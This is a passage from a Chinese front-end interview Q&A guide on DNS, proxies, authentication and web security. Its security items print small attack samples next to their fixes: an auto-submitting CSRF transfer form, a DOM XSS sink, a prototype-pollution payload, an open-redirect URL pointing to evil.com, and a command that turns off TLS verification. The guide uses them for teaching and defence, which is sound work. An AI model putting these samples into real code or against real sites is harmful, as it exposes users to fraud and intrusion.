- 传统解析走 UDP 53 的运营商递归：存在劫持（插广告/错解析）、LocalDNS 缓存过期导致调度不准、跨网访问慢三大问题。
- HTTPDNS 用 HTTP(S) 直接请求云解析服务拿到精确 IP，绕过运营商链路，防劫持还能拿到就近调度结果。
- 移动端重点场景：弱网下域名解析失败率暴涨，HTTPDNS 作为兜底通道大幅降低失败率。
- 限制：HTTPS 请求"连 IP"需要 SNI 与 Host 仍指向域名，浏览器无法改 SNI，因此 H5 场景主要服务于端上网络栈（JSBridge 下发解析结果）。

```javascript
// Node 演示 HTTPDNS 的两步走：先拿 IP，再连 IP 访问域名
const https = require('https');
// 第一步：向 HTTPDNS 服务查询（示例为通用参数风格，具体以服务商文档为准）
https.get('https://203.107.1.1/resolve?host=api.example.com', (r) => {
  let body = '';
  r.on('data', (c) => (body += c));
  r.on('end', () => {
    const ip = JSON.parse(body).data.ips[0];
    // 第二步：连接用 IP，SNI 与 Host 仍是域名，证书校验不受影响
    https.get({ host: ip, servername: 'api.example.com', path: '/' }, (resp) => {
      console.log('HTTPDNS 直连结果:', resp.statusCode);
    });
  });
});
// 浏览器 fetch 无法自定义 SNI，所以 H5 场景下 HTTPDNS 多通过 JSBridge 交给端上网络栈实现
```

### WEB-136：DNS over HTTPS（DoH）和 DoT 是什么？对前端有什么影响？
**答**：
- 传统 DNS 明文传输，链路上的设备能看到并篡改你访问了哪个域名；DoH（RFC 8484）把 DNS 查询装进 HTTPS，DoT 用 853 端口的 TLS 承载。
- DoH 复用 443 穿透性强；DoT 是独立端口，更容易被防火墙识别与管制。
- 浏览器已内置 DoH（Chrome/Firefox 的安全 DNS 设置），查询行为变了但页面代码无感知。
- 对前端的影响：可观测性下降（本地抓包看不到明文 DNS）、hosts/预解析逻辑不变、企业网排障要考虑 DoH 绕过内网解析。
- 延伸概念：Oblivious DoH 在 DoH 之上再加代理层隔离客户端 IP，进一步保护隐私。

```javascript
// 用公共 DoH 的 JSON 接口（application/dns-json 扩展）做一次解析
const url = 'https://dns.alidns.com/resolve?name=www.example.com&type=A';
const { Answer } = await (await fetch(url, { headers: { accept: 'application/dns-json' } })).json();
console.log(Answer); // [{ name, type: 1, TTL, data: '93.184.x.x' }]
// 浏览器内置 DoH 开启后，系统层发出的查询同样会被加密，页面层完全无感
```

## 二十三、代理与网关

### WEB-137：正向代理和反向代理的区别是什么？各自解决什么问题？
**答**：
- 正向代理站在客户端一侧，代表"你"去访问服务端：科学上网、内网出口、统一上网审计；服务端不知道真实客户端。
- 反向代理站在服务端一侧，代表服务接收流量：负载均衡、TLS 终结、缓存、限流、灰度路由；客户端不知道真实后端。
- 配置视角：正向代理配在浏览器或系统里（proxy/PAC 设置）；反向代理配在服务端（nginx），业务域名直接解析到代理。
- 前端常用落点：反向代理是联调 mock、SSR 部署、CORS 网关的标准姿势；正向代理是抓包与内网调试的入口。

```nginx
# 反向代理：业务域名解析到这台 nginx，后端服务对客户端完全隐藏
server {
  listen 443 ssl;
  server_name api.example.com;
  location / {
    proxy_pass http://backend-cluster;          # 流量转发到内网服务
    proxy_set_header Host $host;                # 保留原始域名
    proxy_set_header X-Real-IP $remote_addr;    # 传递真实客户端 IP
    proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
  }
}
upstream backend-cluster {
  server 10.0.0.1:8080;
  server 10.0.0.2:8080;
}
```

### WEB-138：Charles/Fiddler 抓 HTTPS 的原理是什么？
**答**：
- 本质是中间人：抓包工具对客户端伪装成服务端、对服务端伪装成客户端，两条 TLS 各自独立。
- 前提是客户端信任工具的根证书——工具用它动态为每个域名签发"假证书"。
- 不装证书时浏览器报 NET::ERR_CERT_AUTHORITY_INVALID，这正是证书链校验在工作。
- App 侧还有"证书绑定"（SSL Pinning）挡中间人，需关闭校验或用系统级桥接才抓得到。
- 排障用途：看请求头细节、Map Local 改响应、模拟慢速与断网。

```bash
# 1) 把系统代理指向抓包工具
networksetup -setwebproxy Wi-Fi 127.0.0.1 8888
networksetup -setsecurewebproxy Wi-Fi 127.0.0.1 8888
# 2) 信任根证书后即可解密 HTTPS；用 mitmproxy 验证同一原理
mitmdump --listen-port 8888
# 3) 证书绑定的应用会拒绝假证书，表现为连接直接失败
curl -x http://127.0.0.1:8888 https://api.example.com -v 2>&1 | grep -i 'certificate'
```

### WEB-139：网关层的鉴权、限流、熔断，前端会感知到什么？
**答**：
- 鉴权失败统一 401/403；限流一般 429 + Retry-After；熔断降级常用 503，网关还会注入限流余量头（如 X-RateLimit-Remaining）。
- 前端职责：把 429/503 当成"正常业务信号"做退避重试和 UI 降级，而不是当异常吞掉。
- 指数退避 + 随机抖动避免雪崩；关键读接口可降级到缓存数据。
- 网关注入的 X-Request-Id 是排查利器：报错时带上它去问后端，一次定位。

```javascript
// 网关限流 429 与熔断 503 的统一退避处理
async function requestWithBackoff(url, options = {}, maxRetry = 3) {
  for (let i = 0; i <= maxRetry; i++) {
    const res = await fetch(url, options);
    if (res.status === 429 || res.status === 503) {
      if (i === maxRetry) throw new Error(`gateway busy: ${res.status}`);
      // 优先按服务端 Retry-After 等待，否则指数退避加随机抖动
      const after = Number(res.headers.get('retry-after')) * 1000;
      const delay = after || Math.min(30000, 2 ** i * 500 + Math.random() * 300);
      await new Promise((r) => setTimeout(r, delay));
      continue;
    }
    if (!res.ok) {
      // 把网关注入的请求 id 一并上报，方便联查
      reportError(url, res.status, res.headers.get('x-request-id'));
      throw new Error(`HTTP ${res.status}`);
    }
    return res;
  }
}
```

### WEB-140：gRPC-Web 是什么？为什么浏览器不能直接发 gRPC？
**答**：
- gRPC 基于 HTTP/2 的尾部头（trailers）与流式分帧，浏览器 fetch/XHR 拿不到 trailers，也不能裸控 HTTP/2 帧，所以原生 gRPC 在浏览器不可行。
- gRPC-Web 是浏览器侧的适配层：客户端把调用编码成 HTTP 请求，代理（Envoy 等）翻译成真正的 gRPC 转给后端。
- 与 REST+JSON 相比：二进制 Protobuf 体积小、接口契约严格、有代码生成；代价是调试不直观、需要代理层。
- 浏览器侧能力：一元调用与服务端流可用，双向流受限。

```javascript
// 由 .proto 生成的 grpc-web 客户端，浏览器侧像调用本地方法
const client = new EchoServicePromiseClient('https://api.example.com', null, {});
const req = new EchoRequest();
req.setMessage('hello');
const resp = await client.echo(req, { 'x-user-id': '42' });
console.log(resp.getMessage());
// 服务端流：逐帧回调，代理层把 gRPC 流翻译成浏览器可读的分帧响应
const stream = client.serverStream(req, {});
stream.on('data', (chunk) => console.log('frame:', chunk.getMessage()));
stream.on('end', () => console.log('done'));
```

### WEB-141：VPN 和系统代理对前端调试有哪些坑？
**答**：
- VPN 工作在网络层接管路由，所有流量走隧道；系统代理工作在应用层，只有"认代理设置的应用"才受影响。
- 坑 1：Node 与多数 CLI 不读系统代理，需显式设置 HTTP_PROXY/HTTPS_PROXY 环境变量。
- 坑 2：WebSocket 默认跟随 HTTP 代理（CONNECT 隧道），某些代理对长连接有超时或分帧限制，表现成 WS 频繁断开。
- 坑 3：VPN 改变出口 IP，CDN 调度、风控、灰度结果都会变，测试结论可能失真。
- 坑 4：证书信任域不一致——系统钥匙串信任了抓包证书，但 Node 用自带 CA 列表，仍会报校验失败。

```bash
# 让 Node/CLI 也走代理：显式设置环境变量
export HTTPS_PROXY=http://127.0.0.1:8888 HTTP_PROXY=http://127.0.0.1:8888
export NODE_TLS_REJECT_UNAUTHORIZED=0   # 临时信任抓包证书，仅限调试环境
# 验证 WebSocket 是否被代理影响：直接探测握手
curl -x http://127.0.0.1:8888 -i -N \
  -H 'Connection: Upgrade' -H 'Upgrade: websocket' \
  https://ws.example.com/socket 2>&1 | head -5
# 查看当前系统代理与 VPN 接管情况
scutil --proxy | head -8
```

### WEB-142：企业内网自签名证书/私有 CA 导致的问题怎么治理？
**答**：
- 内网域名用企业 CA 签发，客户端必须把企业根证书装入信任域，否则全站红色警告。
- 各运行时信任源不同：浏览器读系统钥匙串；Node 自带 CA 列表，需 NODE_EXTRA_CA_CERTS 追加企业根。
- 治理方案：IT 通过 MDM 统一分发根证书；开发者本地用 NODE_EXTRA_CA_CERTS 指向企业 CA，而不是关校验。
- 联调排查三板斧：openssl s_client 看校验返回码；确认证书链是否完整（少发中间证书是高发事故）；区分"证书过期"与"链不完整"。

```bash
# 1) 查看内网服务返回的证书链与校验结果
openssl s_client -connect git.corp.example.com:443 -servername git.corp.example.com </dev/null 2>/dev/null \
  | grep -E 'verify return|Verify return code'
# 2) 把企业根证书追加给 Node（不要关掉校验）
export NODE_EXTRA_CA_CERTS=/usr/local/share/certs/corp-root.pem
node -e "require('https').get('https://git.corp.example.com', r => console.log(r.statusCode))"
# 3) 个人开发场景用 mkcert 生成本地信任的开发证书
mkcert -install && mkcert dev.local
```

## 二十四、身份认证专题

### WEB-143：Cookie-Session 认证的完整流程是什么？分布式下怎么做？
**答**：
- 流程：登录成功 → 服务端生成 SessionId → Set-Cookie 下发 → 之后每次请求浏览器自动带上 → 服务端按 SessionId 查会话数据。
- Cookie 只存无意义的 Id，敏感数据在服务端；HttpOnly 防 XSS 偷、Secure 只走 HTTPS、SameSite 防 CSRF。
- 集群问题：Session 存在单机内存会在负载均衡下失效。方案有粘性会话（ip_hash）、Session 复制、集中存储（Redis，主流）。
- Redis 方案的代价：每次鉴权多一次网络查询，要考虑超时与续期策略。
- 登出与踢人简单可靠：删 Redis 记录即全局生效，这是对比 JWT 的核心优势之一。

```javascript
// Express + Redis 集中式 Session：任意节点都能鉴权
const express = require('express');
const session = require('express-session');
const RedisStore = require('connect-redis').default;
const app = express();
app.use(session({
  store: new RedisStore({ client: redisClient }),   // 会话集中存 Redis
  secret: process.env.SESSION_SECRET,              // 签名 Cookie 用的密钥
  resave: false,
  saveUninitialized: false,
  cookie: { httpOnly: true, secure: true, sameSite: 'lax', maxAge: 7 * 86400_000 },
}));
app.get('/me', (req, res) => {
  if (!req.session.userId) return res.status(401).end();
  res.json({ userId: req.session.userId });
});
```

### WEB-144：JWT 的结构是什么？无状态验证为什么会出现"吊销难"？
**答**：
- JWT 三段：Header（算法）.Payload（Claims）.Signature（对前两段签名）；前两段只是 Base64Url 编码不是加密，人人可解，所以不能放敏感信息。
- 服务端验签即信任，无需查库，天然适配水平扩展与微服务间调用。
- 代价：签发后无法单方面作废，登出/踢人/改密都拦不住，只能等 exp 自然过期。
- 业界折衷：短有效期（如 15 分钟）+ 服务端黑名单（只存"已签发未过期"的被吊销 token，Redis TTL 与剩余有效期对齐自动清理）。
- 算法注意：禁止 none 算法；RS256（非对称）适合多服务验签，HS256（对称）密钥分发要谨慎。

```javascript
const jwt = require('jsonwebtoken');
// 签发：payload 不要放手机号等敏感信息，只是"声明"
const token = jwt.sign({ sub: 'u_42', role: 'admin' }, process.env.JWT_SECRET, { expiresIn: '15m' });
// 验证：验签与过期检查一次完成，无状态可扩展
const payload = jwt.verify(token, process.env.JWT_SECRET);
// 吊销：黑名单只覆盖已签发未过期的 token，TTL 与剩余有效期对齐
await redis.set(`jwt:bl:${token}`, 1, 'EX', payload.exp - Math.floor(Date.now() / 1000));
```

### WEB-145：JWT 应该存哪里？Access + Refresh 双 Token 怎么落地？
**答**：
- 存 localStorage：任何 XSS 都能偷走 token，风险最高；存 HttpOnly Cookie：JS 读不到，但需配 CSRF 防护与 SameSite。
- 双 Token 模式：Access Token 短期（15 分钟）随请求走；Refresh Token 长期（7-30 天）只用于换新 Access，且只发给鉴权接口。
- 401 后自动刷新：并发请求要合并成一次 refresh（请求队列/单飞），刷新成功后重放排队请求，失败则踢回登录。
- Refresh Token 应做轮换（每次使用即作废换新）并保留服务端吊销能力，弥补 JWT 无法主动失效的问题。

```javascript
// axios 拦截器：401 时刷新 token，并把并发请求排队后重放
let refreshing = null;
api.interceptors.response.use(null, async (error) => {
  if (error.response?.status !== 401) throw error;
  refreshing = refreshing || refreshToken();           // 多个 401 只触发一次刷新
  try {
    const { accessToken } = await refreshing;
    setAuthHeader(accessToken);
    return api(error.config);                          // 重放原请求
  } catch (e) {
    await logout();                                    // refresh 也失效，踢回登录
    throw e;
  } finally {
    refreshing = null;
  }
});
async function refreshToken() {
  // Refresh Token 走 HttpOnly Cookie，仅此一个接口可用
  const res = await fetch('/api/auth/refresh', { method: 'POST', credentials: 'include' });
  if (!res.ok) throw new Error('refresh failed');
  return res.json();
}
```

### WEB-146：OAuth 2.0 授权码流程怎么走？PKCE 解决什么问题？
**答**：
- 授权码流程：前端跳授权页 → 用户登录并同意 → 授权服务器带 code 重定向回来 → 后端用 code + client_secret 换 token。
- 关键分工：换 token 需要 client_secret，所以放在后端做；前端只负责发起与接 code，secret 永不出服务器。
- PKCE：公开客户端（无后端的 SPA/App）没有 secret，改用每次随机的 code_verifier 派生 code_challenge，换 token 时带上 verifier 供比对——防止 code 被截获后冒用。
- state 参数防 CSRF（重定向回跳伪造）；redirect_uri 必须精确匹配白名单。



```javascript
// 前端生成 PKCE 参数并发起授权跳转
const verifier = base64url(crypto.getRandomValues(new Uint8Array(32)));
const challenge = base64url(await crypto.subtle.digest('SHA-256', new TextEncoder().encode(verifier)));
sessionStorage.setItem('pkce_verifier', verifier);
const authUrl = new URL('https://auth.example.com/authorize');
authUrl.search = new URLSearchParams({
  response_type: 'code',
  client_id: 'spa-app',
  redirect_uri: 'https://app.example.com/callback',
  scope: 'openid profile',
  state: crypto.randomUUID(),
  code_challenge: challenge,
  code_challenge_method: 'S256',
}).toString();
location.assign(authUrl); // 回调页再把 code 与 verifier 交给后端换 token
```

### WEB-147：SSO 单点登录的原理是什么？CAS 和 OIDC 有什么区别？
**答**：
- 核心思想：把登录收敛到独立的认证中心（IdP），各业务系统只做"验证票据"，用户登录一次即可访问多个系统。
- CAS 模式：业务系统重定向到 CAS 登录 → CAS 发票据 ticket 回来 → 业务系统拿 ticket 去 CAS 后端验证 → 建立本系统会话。
- OIDC：在 OAuth2.0 上加了一层身份语义——id_token（JWT）直接声明"你是谁"，userinfo 接口补充属性，access_token 才是调 API 的凭证。
- 关键体验：回访时业务系统发现未登录，重定向到 CAS，CAS 的会话 Cookie 还在 → 免密直接发新票据，用户无感。
- 前端职责：正确处理回调路由、保管好 state/nonce、登出要联动 IdP 单点登出。

```javascript
// OIDC 授权码模式下的前端发起侧（nonce 防 id_token 重放）
const oidc = {
  authorizationEndpoint: 'https://sso.example.com/authorize',
  clientId: 'web-app',
  redirectUri: 'https://app.example.com/callback',
  scope: 'openid profile email',   // openid 必带，启用 OIDC 身份语义
  nonce: crypto.randomUUID(),      // IdP 会把它原样放回 id_token
};
sessionStorage.setItem('oidc_nonce', oidc.nonce);
location.assign(
  `${oidc.authorizationEndpoint}?response_type=code&client_id=${oidc.clientId}` +
  `&redirect_uri=${encodeURIComponent(oidc.redirectUri)}&scope=${oidc.scope}&nonce=${oidc.nonce}`
);
```

### WEB-148：前端如何接入"微信/GitHub 登录"这类第三方登录？
**答**：
- 标准路径就是 OAuth 授权码流程的客户端部分：跳转授权页 → 接回调 code → 后端换 token 拿用户信息 → 映射成自家账号（绑定或静默注册）。
- 两条体验路线：弹窗式（window.open + postMessage）与整页跳转式；弹窗体验好但要处理被拦截与跨窗口通信，整页跳转兼容性最好。
- 内嵌环境差异：微信内打开用网页授权（snsapi_userinfo），微信外用扫码登录，前端要按 UA 分支。
- 安全要点：state 串防伪造回调；回调页不要把 code 转发给第三方；openid/unionid 的映射在后端完成。

```javascript
// 弹窗式第三方登录：open 拉起授权页，回调页 postMessage 通知父窗口
document.getElementById('github-login').addEventListener('click', () => {
  const state = crypto.randomUUID();
  sessionStorage.setItem('oauth_state', state);
  const popup = window.open(
    `https://github.com/login/oauth/authorize?client_id=xxx&redirect_uri=${encodeURIComponent(location.origin + '/oauth/callback')}&state=${state}`,
    'oauth', 'width=600,height=700'
  );
  window.addEventListener('message', function onMsg(e) {
    if (e.origin !== location.origin || e.data.type !== 'oauth:done') return;
    window.removeEventListener('message', onMsg);
    popup?.close();
    if (e.data.ok) location.reload();   // 后端已建立会话
  });
  // 弹窗被拦截时的兜底：整页跳转
  if (!popup) location.assign('/oauth/start?provider=github');
});
```

### WEB-149：多因子认证（MFA）有哪些形态？TOTP 的原理是什么？
**答**：
- 三类因子：知识（密码）、持有（手机/硬件钥匙）、生物特征；MFA 要求跨类别至少两种，"密码+短信验证码"是弱化的 2FA（短信可被 SIM 劫持）。
- TOTP（RFC 6238）：服务端与认证器共享密钥，各自按 30 秒时间窗 + HMAC 算出 6 位码，容忍 ±1 窗口的时钟偏差。
- 备份码：MFA 开启时一次性下发，防止认证器丢失把账号锁死。
- 前端职责：MFA 引导页与二维码渲染、验证码输入的自动提交/粘贴处理、失败次数与冷却提示；敏感操作做二次验证（step-up auth）。

```javascript
// 服务端（Node）用 otplib 校验 TOTP，前端只负责采集输入
const { authenticator } = require('otplib');
// 绑定阶段：生成密钥与 otpauth 链接，前端渲染成二维码
const secret = authenticator.generateSecret();
const uri = authenticator.keyuri('user@example.com', 'Example Inc', secret);
// 校验阶段：窗口容忍 ±1，应对设备时钟偏差
authenticator.options = { window: 1 };
const ok = authenticator.verify({ token: req.body.code, secret });
if (!ok) return res.status(401).json({ error: 'invalid_totp' });
```

### WEB-150：Passkey/WebAuthn 的注册与登录流程是怎样的？
**答**：
- 注册：服务端下发 challenge → 浏览器调 navigator.credentials.create() → 认证器（指纹/FaceID/安全钥匙）生成密钥对，私钥不出设备 → 公钥 + credentialId 上报服务端存档。
- 登录：服务端下发新 challenge → navigator.credentials.get() → 认证器用私钥对 challenge 签名 → 服务端用存档公钥验签。
- 安全本质：挑战-应答 + 站点域绑定（rp.id），钓鱼站点拿不到可用凭据，天然防钓鱼防撞库。
- 前端要点：challenge 必须服务端随机生成且一次性；ArrayBuffer 的编码/解码工具函数必配；体验上做"密码与 passkey 优先"的分流。

```javascript
// 注册：浏览器请求认证器生成凭据
const credential = await navigator.credentials.create({
  publicKey: {
    challenge: new Uint8Array(serverOptions.challenge),        // 服务端一次性随机数
    rp: { name: 'Example', id: 'example.com' },
    user: { id: new TextEncoder().encode(serverOptions.userId), name: 'u@example.com', displayName: 'U' },
    pubKeyCredParams: [{ type: 'public-key', alg: -7 }],       // ES256
    authenticatorSelection: { residentKey: 'required', userVerification: 'preferred' },
  },
});
// 把公钥与 credentialId 上报（ArrayBuffer 转 base64url 后 POST）
await fetch('/api/webauthn/register', { method: 'POST', body: serialize(credential) });

// 登录：拿到 challenge 后让认证器签名
const assertion = await navigator.credentials.get({
  publicKey: { challenge: new Uint8Array(loginOptions.challenge), rpId: 'example.com' },
});
await fetch('/api/webauthn/login', { method: 'POST', body: serialize(assertion) }); // 服务端用公钥验签
```

## 二十五、安全攻防专题

### WEB-151：XSS 三种类型的代码长什么样？分别怎么修？
**答**：
- 存储型：恶意脚本入库（如评论），所有访问者中招，危害最大。
- 反射型：脚本藏在 URL 参数，服务端原样回显，需要诱导点击。
- DOM 型：纯前端把不可信数据写进 innerHTML/eval/location 等危险 sink，服务端无感知。
- 修复原则：默认用 textContent/setAttribute 等安全 API；富文本过 DOMPurify 白名单消毒；配合 CSP 兜底；框架默认转义，但别用 dangerouslySetInnerHTML 或 v-html 插未消毒 HTML。

```html
<!-- DOM 型 XSS 的漏洞与修复对照 -->
<script>
  const name = new URLSearchParams(location.search).get('name');
  // 漏洞：?name= 会被当 HTML 执行
  document.getElementById('greet').innerHTML = 'Hi, ' + name;
  // 修复 1：纯文本一律 textContent
  document.getElementById('greet').textContent = 'Hi, ' + name;
  // 修复 2：确需富文本时白名单消毒
  document.getElementById('rich').innerHTML = DOMPurify.sanitize(name, { ALLOWED_TAGS: ['b', 'i', 'em'] });
</script>
<!-- 存储型与反射型同理：服务端按输出上下文转义，HTML 属性 JS URL 各有不同转义规则 -->
```

### WEB-152：写一个 CSRF 攻击示例，三层防御分别怎么配？
**答**：
- 攻击：受害者登录了 bank.com 后访问恶意页，恶意页自动向 bank.com 提交转账表单——浏览器自动带上 Cookie，请求看起来"完全合法"。
- 防御 1：SameSite Cookie（Lax 默认挡住跨站 POST；关键站点显式配 Lax/Strict）。
- 防御 2：CSRF Token——服务端发随机 token，表单或请求头必带，攻击者读不到别的域下的 token。
- 防御 3：校验 Origin/Referer 头，非本站来源直接拒绝；JSON API 可要求自定义头，跨站伪造请求带不出去。

```html
<!-- 攻击页：受害者带着已登录 Cookie 自动提交跨站表单 -->
<form id="evil" method="POST" action="https://bank.example.com/transfer">
  <input type="hidden" name="to" value="attacker">
  <input type="hidden" name="amount" value="10000">
</form>
<script>document.getElementById('evil').submit();</script>
<!-- 防御后：bank.example.com 配 SameSite=Lax，跨站 POST 不会自动带 Cookie -->
<!-- 且服务端要求请求头 X-CSRF-Token 与会话绑定的 token 一致，攻击页拿不到该 token -->
```

### WEB-153：点击劫持怎么防？frame busters 为什么不够？
**答**：
- 攻击：把目标页面塞进透明 iframe 叠在诱导按钮上，用户"点红包"实际点到"转账确认"。
- 服务端防御（首选）：X-Frame-Options 的 DENY/SAMEORIGIN，或 CSP 的 frame-ancestors（更现代，可精确到来源白名单）。
- JS frame buster（if top !== self 跳出）是历史方案：可被 iframe 的 sandbox、204 响应等绕过，只能做兜底。
- 需要被合作方嵌入的页面用 frame-ancestors https://partner.com 精确放行。
- 敏感操作再加二次确认（输入密码/验证码），把"点错"的损失拦住。

```html
<!-- 服务端配置是主力（X-Frame-Options 或 CSP frame-ancestors），这里是页面侧兜底 -->
<script>
  // 兜底 frame buster：被嵌套即尝试跳出（可能被 sandbox 阻止，故只作补充）
  if (window.top !== window.self) {
    try { window.top.location = window.self.location; }
    catch (e) { document.body.innerHTML = '<h1>请在原始站点打开本页</h1>'; }
  }
</script>
```

### WEB-154：什么是原型污染（Prototype Pollution）攻击？
**答**：
- 攻击者通过可控对象键 __proto__/constructor.prototype 篡改 Object.prototype，让所有对象"天生"带上恶意属性。
- 常见入口：深拷贝与 merge 工具（早期 lodash.merge 出过 CVE）、qs 类查询串解析、配置合并。
- 危害展开：绕过判断（isAdmin 恒真）、改变 JSON.stringify 行为、配合其他 gadget 实现执行。
- 修复：合并时过滤 __proto__、constructor、prototype 键；用 Object.create(null) 做无原型字典；Node 20+ 可 --disable-proto=throw。

```javascript
// 漏洞版 merge：__proto__ 被当作普通键写入
function unsafeMerge(target, source) {
  for (const k in source) {
    if (typeof source[k] === 'object' && source[k]) unsafeMerge(target[k] ??= {}, source[k]);
    else target[k] = source[k];
  }
  return target;
}
unsafeMerge({}, JSON.parse('{"__proto__": {"isAdmin": true}}'));
console.log({}.isAdmin); // true，全局对象被污染

// 修复版：拦截危险键
function safeMerge(target, source) {
  const blocked = ['__proto__', 'constructor', 'prototype'];
  for (const k of Object.keys(source)) {
    if (blocked.includes(k)) continue;
    target[k] = typeof source[k] === 'object' && source[k] ? safeMerge(target[k] ?? {}, source[k]) : source[k];
  }
  return target;
}
```

### WEB-155：什么是开放重定向漏洞？怎么修？
**答**：
- 登录后跳转支持 ?redirect=... 且未校验时，攻击者构造 https://site.com/login?redirect=https://evil.com，借可信域名为钓鱼页背书。
- 危害链：钓鱼跳板；配合 OAuth 时 redirect_uri 的开放重定向是高危配置错误，可偷授权码。
- 修复：只允许相对路径跳转；白名单校验目标域名；拒绝 //evil.com、https:evil.com 等协议相对与变形写法；必要时跳转前给确认页。

```javascript
// 修复示例：只允许本站相对路径
function safeRedirect(url, fallback = '/dashboard') {
  if (!url) return fallback;
  // 必须以 / 开头且不能以 // 开头，// 会被解析为协议相对地址跳到外站
  if (!url.startsWith('/') || url.startsWith('//')) return fallback;
  // 再防变形：解析后的 host 必须仍是本站
  const parsed = new URL(url, 'https://app.example.com');
  if (parsed.origin !== 'https://app.example.com') return fallback;
  return parsed.pathname + parsed.search;
}
res.redirect(safeRedirect(req.query.redirect));
```

### WEB-156：什么是子域名接管（Subdomain Takeover）？
**答**：
- 场景：子域 CNAME 指向云资源（GitHub Pages、S3、云函数自定义域等），资源被删但 DNS 记录残留——任何人都能在云平台上认领该资源，直接控制这个子域的内容。
- 危害：在可信主域下挂钓鱼页、偷该域的 Cookie（父子域共享）、绕过基于域名的信任与 CSP。
- 发现方式：扫描子域的 CNAME 指向，再访问看是否出现云端特征 404/NXDOMAIN 页面。
- 治理：下线资源时同步删 DNS 记录；云资源保留防接管占位；CI 定期扫描告警。

```bash
# 探测残留的 CNAME：指向 GitHub Pages 但仓库已删除
dig +short abandoned.example.com CNAME
# 输出形如 app-obsolete.github.io，访问返回 GitHub 的 404 页面
curl -s -o /dev/null -w '%{http_code}\n' http://abandoned.example.com
# 返回 404 且页面含 There is not a GitHub Pages site here 类文案，即存在接管风险
```

### WEB-157：浏览器 0day 时代，前端能做什么自保？
**答**：
- 前端拦不住浏览器自身漏洞，但能收窄利用面：管控第三方脚本（供应链是最大入口），核心页面用 SRI 锁定脚本内容，防 CDN 被劫持后投毒。
- 跨域隔离（COOP/COEP）配合站点隔离，让漏洞利用难以跨站读内存；收敏页面独立域名部署。
- 权限最小化：Permissions-Policy 关闭用不到的摄像头/USB/支付等能力；CSP 去掉 unsafe-inline。
- 运营侧：重大漏洞披露期推动用户升级的横幅与功能降级策略；关键数据服务端再校验，永远假设前端不可信。

```html
<!-- 供应链自保：SRI 确保第三方脚本未被篡改，hash 不匹配直接拒绝执行 -->
<script src="https://cdn.vendor.com/sdk.js"
        integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC"
        crossorigin="anonymous"></script>
<!-- 页面同时配合响应头收紧：Permissions-Policy、COOP/COEP、无 unsafe-inline 的 CSP -->
```

### WEB-158：一套完整的安全响应头清单长什么样？
**答**：
- CSP：限制脚本/样式/帧来源，是最强的一道闸；X-Frame-Options 与 frame-ancestors：防点击劫持。
- X-Content-Type-Options: nosniff：禁止 MIME 嗅探；HSTS：强制 HTTPS 并防降级。
- Referrer-Policy：控制外链带出的来源信息；Permissions-Policy：批量关权限。
- 补充：Cross-Origin-Opener-Policy 收紧窗口关系；敏感页面用 Cache-Control: no-store 禁缓存。

```nginx
# 全家桶：放在 server 块全局生效
add_header Content-Security-Policy "default-src 'self'; script-src 'self' 'nonce-r4nd0m'; object-src 'none'; base-uri 'self'; frame-ancestors 'none'" always;
add_header X-Frame-Options "DENY" always;
add_header X-Content-Type-Options "nosniff" always;
add_header Strict-Transport-Security "max-age=31536000; includeSubDomains; preload" always;
add_header Referrer-Policy "strict-origin-when-cross-origin" always;
add_header Permissions-Policy "camera=(), microphone=(), geolocation=(self), payment=()" always;
add_header Cross-Origin-Opener-Policy "same-origin" always;
# 敏感页面单独禁缓存
location /account {
  add_header Cache-Control "no-store" always;
  proxy_pass http://backend;
}
```

## 二十六、浏览器存储与离线深入

### WEB-159：storage 事件在跨页同步时有哪些序列化陷阱？
**答**：
- localStorage 只能存字符串：对象必须 JSON.stringify，Date/Map/Set/undefined/函数会直接丢或变形（Date 变字符串、Map 变空对象）。
- storage 事件的 oldValue/newValue 也是字符串：比较前先 parse，不能拿字符串直接 !== 判断"是否变化"。
- stringify 大对象有 CPU 开销，跨页高频同步别走 localStorage（用 BroadcastChannel）。
- 循环引用 stringify 会直接抛错，存前要扁平化或改用结构化克隆能力的存储。

```javascript
// 陷阱复现与安全封装
localStorage.setItem('meta', JSON.stringify({ at: new Date(), tags: new Map([['a', 1]]) }));
const back = JSON.parse(localStorage.getItem('meta'));
console.log(back.at instanceof Date); // false，Date 退化成字符串
console.log(back.tags);               // {}，Map 直接丢失

// 封装：统一入口 + 脏数据容错
function setJSON(key, value) {
  localStorage.setItem(key, JSON.stringify({ v: value }));
}
function getJSON(key, fallback = null) {
  try { return JSON.parse(localStorage.getItem(key))?.v ?? fallback; }
  catch { return fallback; }  // 历史脏数据容错
}
// 跨页监听：先 parse 再比较内容
window.addEventListener('storage', (e) => {
  if (e.key === 'meta' && JSON.parse(e.newValue ?? 'null')?.v?.id !== currentState.id) sync();
});
```

### WEB-160：如何设计一个 IndexedDB 的 Promise 化封装库？版本迁移怎么做？
**答**：
